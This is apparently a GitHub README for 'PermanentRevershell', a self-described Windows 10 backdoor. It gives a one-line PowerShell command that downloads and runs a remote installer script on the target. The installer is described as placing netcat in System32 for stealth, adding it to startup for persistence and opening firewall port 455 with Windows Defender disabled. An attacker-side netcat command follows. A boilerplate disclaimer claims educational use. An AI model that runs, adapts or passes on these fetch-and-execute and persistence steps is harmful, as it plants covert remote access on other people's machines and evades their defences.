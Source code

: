 # PermanentRevershell-win10backdoor
 "PermanentRevershell: A potent Windows 10 backdoor providing persistent access and full system control. Explore its capabilities today!"
![image](https://github.com/alariordas/PermanentRevershell-win10backdoor/assets/80034759/82e62466-3dff-4a75-b90d-51602e27e753)

**Disclaimer: Use Responsibly**

This tool is provided for educational and legitimate security testing purposes only. The author (insert your name or username) does not condone or endorse any unauthorized or malicious use of this tool. Any actions and activities carried out using this tool are the sole responsibility of the user.

By downloading, using, or distributing this tool, you acknowledge and agree to use it in compliance with all applicable laws and ethical guidelines. Improper or unlawful use of this tool is strictly prohibited, and the author will not be held responsible for any consequences arising from such actions.

Please exercise caution and always obtain proper authorization before using this tool on systems or networks that you do not own or have explicit permission to test.

Use this tool responsibly and for legitimate purposes only.

**Note:** It is important to be aware of and comply with the laws and regulations governing cybersecurity and ethical hacking activities in your jurisdiction. Unauthorized access or malicious activities may result in legal consequences.





# Netcat Auto-Installer for Windows

This script automates the installation of Netcat on Windows systems. Netcat is a versatile networking utility that can be used for various purposes, including network testing and security assessments. Please use this script responsibly and only on systems and networks for which you have proper authorization.

## Features

- Downloads and extracts the Netcat ZIP file to a temporary location.
- Moves the `nc.exe` binary to the `System32` directory, enhancing its stealth.
- Sets up Netcat to run at system startup for persistent access.
- Enables a firewall rule to allow incoming connections on port 455.
- Removes temporary files after successful installation

## Prerequisites

Before using this script, ensure that you have:

- Windows operating system.
- Administrator privileges.
- PowerShell enabled for script execution. You can do this by running:
- Windows Defender desactivated during the execution of the script

```powershell
Set-ExecutionPolicy Unrestricted -Scope CurrentUser -Force
```

## Usage

### Automated Installation

1. Press `Windows + R` to open the Run dialog.
2. Type ```powershell.exe  IEX(IWR https://raw.githubusercontent.com/alariordas/PermanentRevershell-win10backdoor/main/ncinstaller.ps1 -UseBasicParsing);``` and press `Ctrl + Enter` to open PowerShell with Administrator privileges.

```powershell
powershell.exe  IEX(IWR https://raw.githubusercontent.com/alariordas/PersistentReverseShell-Win10Backdoor/main/ncinstaller.ps1 -UseBasicParsing);
```

The script will be executed automatically. However, please note that it may not work on all systems. If you encounter issues, you may need to adapt the script to the target system's properties.

### In the Attacker side
Execute this command in the terminal, replace `explample.com` with the victim ip or domain
```cmd
netcat -z -v example.com 455
```
